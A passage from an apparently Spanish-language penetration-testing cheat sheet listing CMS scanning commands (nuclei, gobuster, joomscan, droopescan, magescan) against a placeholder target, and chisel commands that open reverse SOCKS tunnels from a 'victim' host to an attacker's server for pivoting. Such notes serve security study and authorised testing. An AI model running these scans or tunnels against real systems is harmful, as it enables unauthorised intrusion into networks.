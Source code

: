> La variable de entorno `$WP_TOKEN` contiene el token generado en la web [https://wpscan.com/](https://wpscan.com/)

##### Nuclei

```bash
nuclei -u http://<RHOST>/wordpress/ -tags fuzz -t /home/d4redevil/.local/nuclei-templates/http/fuzzing/wordpress-plugins-detect.yaml
```
##### Gobuster

```bash
gobuster dir -u http://<RHOST>/wordpress/ -w /usr/share/seclists/Discovery/WebContent/CMS/wp-plugins.fuzz.txt
```

####  5.2.2. <a name='joomla'></a>Joomla

```bash
joomscan -u http://<RHOST>
```

####  5.2.3. <a name='drupal'></a>Drupal

```bash
droopescan scan drupal -u http://<RHOST> -t 32
```

####  5.2.4. <a name='magento'></a>Magento

```bash
php magescan.phar scan:all http://<RHOST>
```
###  5.3. <a name='local-file-inclusion-(lfi)'></a>Local File Inclusion (LFI)

##  6. <a name='pivoting'></a>Pivoting

###  6.1. <a name='chisel'></a>Chisel
####  6.1.1. <a name='servidor-(atacante)'></a>Servidor (Atacante)

```bash
chisel server -p 8000 --reverse --socks5
```
####  6.1.2. <a name='cliente-(víctima)'></a>Cliente (Víctima)

Linux

```bash
./chisel client <IP-CHISEL-SERVER>:8000 R:8000:socks
./chisel client <IP-CHISEL-SERVER>:8000 R:3000:127.0.0.1:3000
```

Windows
